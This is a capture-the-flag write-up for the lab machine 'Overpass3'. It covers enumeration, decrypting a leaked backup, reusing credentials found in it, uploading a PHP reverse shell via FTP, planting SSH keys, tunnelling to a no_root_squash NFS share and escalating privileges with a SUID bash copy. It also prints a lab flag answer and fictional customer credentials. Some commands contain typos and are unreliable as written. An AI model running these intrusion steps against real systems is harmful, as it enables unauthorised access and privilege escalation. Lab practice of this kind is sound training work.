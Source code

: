# Overpass3 - Adventures in Hosting

After Overpass's rocky start in infosec, and the commercial failure of their password manager and subsequent hack, they've decided to try a new business venture.

Overpass has become a web hosting company!  
Unfortunately, they haven't learned from their past mistakes. Rumour has it, their main web server is extremely vulnerable.

**Warning:** This box can take **around 5 minutes to boot** if you're not a subscriber. As a subscriber, it will be ready much faster.

I will review writeups for this room starting from 1 week after release. Before then, please do not publish writeups. Keeping them unlisted is fine but please do not share them.

You're welcome to stream this room **once writeups are approved.**  
Banner Image from [Nastuh Abootalebi](https://unsplash.com/@sunday_digital) on [Unsplash](https://unsplash.com/photos/yWwob8kwOCk)

### Web Flag

Start with an nmap scan of the target
`nmap -Pn -p- -T4 -sS -vv 10.10.145.20`
It shows 21, 22 and 80 open

Lets get some more details
`nmap -sS -Pn -p 21,22,80 -sV -T4 -sC -vv 10.10.145.20`

`21` is `vsftp 3.0.3`
`22` is `OpenSSH 8.0 (protocol 2.0)`
and `80` is `Apache 2.4.37`

FTP doesn't appear to be open for anonymous login

Visiting the website gives some details about the company, promising 5 9's uptime.  Looking at the source some comments also make light of the the 5 9's promise.  No robots.txt or security.txt

Perform some directory enumeration
`gobuster dir --url 10.10.145.20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

The website has a `/backups` directory with a `backup.zip`.  Download this.  The file contains a priv.key and a xlsx.gpg document.  The `priv.key` file does indeed look like a PGP private key file, and the CustomerDetails.xlsx is encrypted

Import the priv key - `gpg --import priv.key`
Decrypt (`--output` must come before `--decrypt` because it just must!) - `gpg --output CustomerDetails.xlsx --decyrpt Customerdetails.xlsx.gpg`

Opening the file we see a list of usernames / passwords / CC details, etc.

|   |   |   |   |   |
|---|---|---|---|---|
|Customer Name|Username|Password|Credit card number|CVC|
|Par. A. Doxx|paradox|ShibesAreGreat123|4111 1111 4555 1142|432|
|0day Montgomery|0day|OllieIsTheBestDog|5555 3412 4444 1115|642|
|Muir Land|muirlandoracle|A11D0gsAreAw3s0me|5103 2219 1119 9245|737|

Using those credentials for SSH failed - Paradox needs keys, and 0day and muirlandoracle passwords didn't work.

We can logon to FTP as paradox it looks to be the website itself, with backup.zip file used earlier.

Upload a PHP reverse shell into the root ftp folder and navigate to it.  We get a  reverse shell.  Stabilise it `python -c 'import pty;pty.spawn("/bin/bash")'` fails as no python is installed.  `python3 -c 'import pty;pty.spawn("/bin/bash");'`

We are running as apache from root.
`cd ~` and we see a web.flag
`cat web.flag`

### User Flag

Attempting to run `sudo` asks for a password which we don't have.
Check `SUID` bit `find / -perm -u=s -type f 2>/dev/null`
Non found, no writable folders that look to give us privesx

`su paradox` and use the password we found earlier

We can logon as paradox. but paradox is not in the sudoers file

Lets grab paradox's .ssh keys while we are here.

Looking at `/etc/exports` we see `/home/james *(rw,fsid=0,sync,no_root_squash,insecure)`

Attempt to mount remotely failed from our device.
`mount -o rw $TARGETIP:/home/james /tmp/nfs` fail with `No route to host`
`mount -t nfs $TARGETIP:/home/james /tmp/nfs` fail with same error
`showmount -e %TARGETIP` reports `clnt_create: RPC: Unable to receive`

`ps -aux | grep nfs` we see NFS running, `ss`, `netcat` and `lsof` aren't installed.
`rpcinfo -p` shows NFS on port 2049.  Since we didn't find it on nmap we can assume it is blocked by a firewall.

This indicates we can only exploit NFS locally

We can use SSH tunnelling to do this attack.

Attempt to connect to the device using SSH with the keys we stole earlier, it fails auth.  We can create a new SSH key for our user.

```shel
ssh-keygen -f paradox
cat paradox.pub >> ~/.ssh/authorized_keys
```
Copy the paradox private key to your machine then connect wtih
```shell
chmod 600 paradox
ssh paradix@$TARGETIP -i paradox
```

It works
so connect to 2049:
`ssh paradox@$TARGET -i ~/paradox -L 2049:localhost:2049`

On the Attacker machine, run
`mkdir ~/nfs`
`sudo mount -v -t nfs localhost:/ ~/nfs/`

`cat ~/nfs/user.flag`

Answer: `thm{3693fc86661faa21f16ac9508a43e1ae}`

### Root flag

Add our key we already created to James list
Grab the public key from paradox then add it
`echo paradox.pub ~/nfs/.ssh/authorized_keys`

Try to ssh in as james using the paradox SSH key
`ssh -i paradox james@10.10.41.231`


Lets make a copy of bash with the SUID flag set
From James profile
`cp /usr/bin/bash ~`

From our machine
```
chown root:root ~/nfs/bash
chmod +s ~/nfs/bash
```

From James profile we should now have a bash binary with the SUID set and root as the owner.

`./bash -p`
`whoami`
`cat /root/root.flag`
